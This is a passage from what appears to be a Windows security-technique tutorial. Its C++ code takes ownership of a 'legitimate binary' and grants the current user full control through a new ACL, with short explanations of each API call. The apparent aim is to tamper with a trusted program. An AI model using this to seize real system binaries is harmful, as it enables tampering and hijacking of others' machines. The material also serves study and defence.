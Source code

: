 ```cpp
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("setting security descriptor owner: ok\n");

// apply the security descriptor to the file
if (!SetFileSecurityA(legitApp, OWNER_SECURITY_INFORMATION, &sd)) {
  printf("error setting file ownership: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("setting file ownership: ok\n");
```

`InitializeSecurityDescriptor` - init a new security descriptor.    
`SetSecurityDescriptorOwner` - sets the owner in the security descriptor to the current user's `SID`.    
`SetFileSecurityA` - applies the security descriptor to the legitimate binary to change its ownership.     

Then, applies the new ACL to the file:     

```cpp
// set full control for the current user
EXPLICIT_ACCESS ea;
PACL pNewAcl = NULL;

ZeroMemory(&ea, sizeof(EXPLICIT_ACCESS));
ea.grfAccessPermissions = GENERIC_ALL;
ea.grfAccessMode = SET_ACCESS;
ea.grfInheritance = NO_INHERITANCE;
ea.Trustee.TrusteeForm = TRUSTEE_IS_SID;
ea.Trustee.TrusteeType = TRUSTEE_IS_USER;
ea.Trustee.ptstrName = (LPSTR)pTokenUser->User.Sid;

if (SetEntriesInAcl(1, &ea, NULL, &pNewAcl) != ERROR_SUCCESS) {
  printf("error setting new ACL: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("setting new ACL: ok\n");

if (SetSecurityInfo(hFile, SE_FILE_OBJECT, DACL_SECURITY_INFORMATION, 
NULL, NULL, pNewAcl, NULL) != ERROR_SUCCESS) {
  printf("error setting security info: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  LocalFree(pNewAcl);
  return 1;
}
printf("setting security info: ok\n");

free(pTokenUser);
CloseHandle(hToken);
LocalFree(pNewAcl);
```
